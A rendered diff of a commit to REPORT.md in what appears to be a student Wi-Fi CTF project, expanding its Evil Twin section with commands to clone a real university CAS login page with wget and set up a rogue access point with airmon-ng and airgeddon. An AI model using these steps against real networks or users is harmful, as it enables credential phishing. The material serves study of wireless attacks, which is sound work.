

Before and after one commit to cibero42/Wifi-CTF, a Markdown page: REPORT.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Evil Twin Attack.md

````diff
--- a/REPORT.md
+++ b/REPORT.md
@@ -204,11 +204,59 @@ In our example, the md5 hash of the password "12345678" is "25d55ad283aa400af464
 
 ## 2.4. Evil Twin
 ### 2.4.1. Definition
-An evil twin attack is a type of cyber attack where a malicious actor sets up a rogue wireless access point (AP) with the same Service Set Identifier (SSID) as a legitimate AP. This deceitful AP appears to be a trusted network, enticing unsuspecting users to connect to it, unaware that they are falling into a trap. Once connected, the attacker can intercept sensitive information such as usernames, passwords, and other confidential data transmitted over the network. Evil twin attacks are often carried out in public Wi-Fi hotspots, exploiting the convenience of open networks to lure in targets.
+An Evil Twin attack is a sophisticated wireless security threat where a malicious actor sets up a rogue wireless access point (AP) that impersonates a legitimate network. This fraudulent AP, often configured with the same SSID (Service Set Identifier) and encryption parameters as the genuine network, deceives unsuspecting users into connecting to it instead of the authentic network.
+
+The primary objective of an Evil Twin attack is to intercept sensitive information transmitted between users and network resources. By luring users to connect to the rogue AP, attackers can capture network traffic, including login credentials, financial data, or personal information. This type of attack exploits the trust users place in wireless networks, posing significant risks to the confidentiality and integrity of their data.\
+
 This attack can be particularly effective in places like airports, cafes, and hotels, where users frequently connect to public Wi-Fi networks without verifying their legitimacy. \
-In this report, we will demonstrate our implementation of the evil twin attack on an OPEN, WPA or WPA2 Wi-Fi network.
+
+In this report, we will demonstrate our implementation of the evil twin attack on an OPEN, WPA or WPA2 Wi-Fi network.\
 
 ### 2.4.2. Attack implementation
 **(Amine)**
-installing wget : sudo apt-get install wget.
-cloning the Login page of CAS TSP : wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://cas6.imtbs-tsp.eu/cas/login?service=https://ecampus.imtbs-tsp.eu/uPortal/Login
+For our example of attack implementation, we have cloned the login web page of CAS TSP and we will try to capture the credentials of our target. \
+
+Here are the main steps that we follow it to clone this web page. \
+
+#### Step 1 : Installing the wget
+```
+sudo apt-get install wget.
+```
+
+#### Step 2 : Cloning the Login page of CAS TSP :
+```
+wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://cas6.imtbs-tsp.eu/cas/login?service=https://ecampus.imtbs-tsp.eu/uPortal/Login
+```
+Then these are the steps that we have done it to implement the evil twin attack.\
+
+#### Step 1 : Install airgeddon :
+```
+sudo apt update && sudo apt install airgeddon
+```
+
+## Step 2 : Put interface on monitor mode
+Killing Wi-Fi related processes.
+```
+sudo airmon-ng check kill
+```
+
+Starting monitor interface (usually the interface name is wlan0, but you can check it by running **sudo iw dev**).
+```
+sudo airmon-ng start wlan0
+```
+
+Now the interface should be in monitor mode, and its name has been changed from "yourWifiInterface" to "yourWiFiInteface**mon**"
+## Step 3 : Start airgeddon
+```
+sudo airgeddon
+```
+
+Firstly, airgeddon is going to check if you have all necessary packets installed. Press **Enter** to enter in airgeddon terminal.
+
+## Step 4 : Select network in airgeddon
+Check for **wlan0mon** {**your interface name**} in airgeddon list, and type the number corresponding to it.
+
+## Step 5 : Start Evil Twin attack
+### 5.1 Select attack
+Select option 7
+
````
Also changed, not shown: other parts of REPORT.md (+36 -0 lines).
